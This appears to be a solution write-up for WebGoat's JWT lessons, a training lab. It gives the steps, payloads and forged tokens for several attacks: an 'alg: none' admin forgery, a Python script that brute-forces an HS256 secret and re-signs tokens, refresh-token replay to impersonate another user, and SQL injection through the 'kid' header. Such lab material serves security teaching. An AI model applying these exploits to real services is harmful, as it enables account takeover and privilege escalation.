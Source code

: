 # task 3

Just pass token in webwolf and read the username: user

# task 5

```
Intersept request, send from any user ex. Tom( change users in right top corner)
Gain access token and decode its heder,payload in base64.
```

```
access_token:eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1ODYxNjAzNTUsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiVG9tIn0.dsugXZYLM8WnyzWAA-CFOXCAzfVn0DwzrlmeY6Bns-Uce9Ez3IMq4SSLbk1YgQWNeg7kchjL9wUIqo6nVg8Sfg
```

```
HEADER:{"alg":"HS512"}
```

```
PAYLOAD:{
  "iat": 1586160355,
  "admin": "false",
  "user": "Tom"
}
```

Change admin to true and alg to none, encode in base64,send in repeater

```
Header:
{
  "alg": "None"
}

Payload:
{
  "iat": 1586160355,
  "admin": "true",
  "user": "Tom"
}
```

```
encoded new header:eyJhbGciOiJOb25lIn0=
```

```
encoded new payload:eyJpYXQiOjE2NDg2NDcwMjYsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9
```

```
final token:eyAiYWxnIjogIk5vbmUiIH0.eyAgImlhdCI6IDE1ODYxNjAzNTUsICAiYWRtaW4iOiAidHJ1ZSIsICAidXNlciI6ICJUb20ifQ.
```

# Task 7

```
1.Throws an exception in line 12
```

```
2.Logs an error in line 9
```

# Task 8

```
answer: victory
```

Brute force jwtcracker or alogirthm ( have to import word dictionary example https://github.com/first20hours/google-10000-english)

```
import base64
import hashlib
import hmac

def jwt_tokens_5():
     token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQuY29tIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.vPe-qQPOt78zK8wrbN1TjNJj3LeX9Qbch6oo23RUJgM'.split('.')

     payload = '{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"tom@webgoat.com","username":"WebGoat","Email":"tom@webgoat.com","Role":["Manager","Project Administrator"]}'.encode()

     unsigned_token = (token[0] + '.' + token[1]).encode()

     # signature is base64 URL encoded and padding has been removed, so we must add it
     signature = (token[2] + '=' * (-len(token[2]) % 4)).encode()

     with open('google-10000-english-master/google-10000-english.txt', 'r') as fd:
         lines = [line.rstrip('\n').encode() for line in fd]

     def hmac_base64(key, message):
         return base64.urlsafe_b64encode(bytes.fromhex(hmac.new(key, message, hashlib.sha256).hexdigest()))

     for line in lines:
         test = hmac_base64(line, unsigned_token)

         if test == signature:
             print('Key: {}'.format(line.decode()))
             new_token = (token[0] + '.' + base64.urlsafe_b64encode(payload).decode().rstrip('=')).encode()
             new_signature = hmac_base64(line, new_token)
             new_token += ('.' + new_signature.decode().rstrip('=')).encode()
             print('New token: {}'.format(new_token.decode()))
             return

jwt_tokens_5()
```

# Task 10

```
Network tab catch login response to get Jerry credentials
```

```
{
    "user": "Jerry",
    "password": "bm5nhSkxCXZkKRy4"
}
```

Also response tokens

```
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "CXtmpNToIqJdepIKGcgi"
}
```

Get Tom's access token based on JErry refresh token and old expired Tom's acces token from log,

```
endpoint: http://localhost:8080/WebGoat/JWT/refresh/newToken
```

Add John's refresh token in payload and get new tokens

```
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg",
  "refresh_token" : "zEnjGKfcHaJKbxQJsQXG"
}
```

Now. intercept for checkout response, after clicking checkout button, and resent request with Toms access token in authorization header.

# Task 11

Try to delete Toms account ( button), and catch delete response with token. Place token in jwt.io editor.

```
header:{
  "typ": "JWT",
  "kid": "webgoat_key",
  "alg": "HS256"
}
```

```
payload: {
  "iss": "WebGoat Token Builder",
  "iat": 1524210904,
  "exp": 1618905304,
  "aud": "webgoat.org",
  "sub": "jerry@webgoat.com",
  "username": "Jerry",
  "Email": "jerry@webgoat.com",
  "Role": [
    "Cat"
  ]
}
```

We can see there is new field in header kid, do sql injection on this field. Code in base64 value of string new_key. Path to source code of lesson is https://github.com/WebGoat/WebGoat/blob/develop/webgoat-lessons/jwt/src/main/java/org/owasp/webgoat/jwt/JWTFinalEndpoint.java.

```
bmV3X2tleQ==
```

Replace kid with

```
"something_else' UNION SELECT 'bmV3X2tleQ==' FROM INFORMATION_SCHEMA.SYSTEM_USERS; --";

```

Change Jerry to Tom in payload of token, change expiration date to later, change signature to "new_key". New token generated is

```
eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleSIsImFsZyI6IkhTMjU2In0.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTcxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQuY29tIiwiUm9sZSI6WyJDYXQiXX0.Snpx3XPTFbAkvve7tOUv2TihTNGu_ZRfNF6fci4VC6A
```
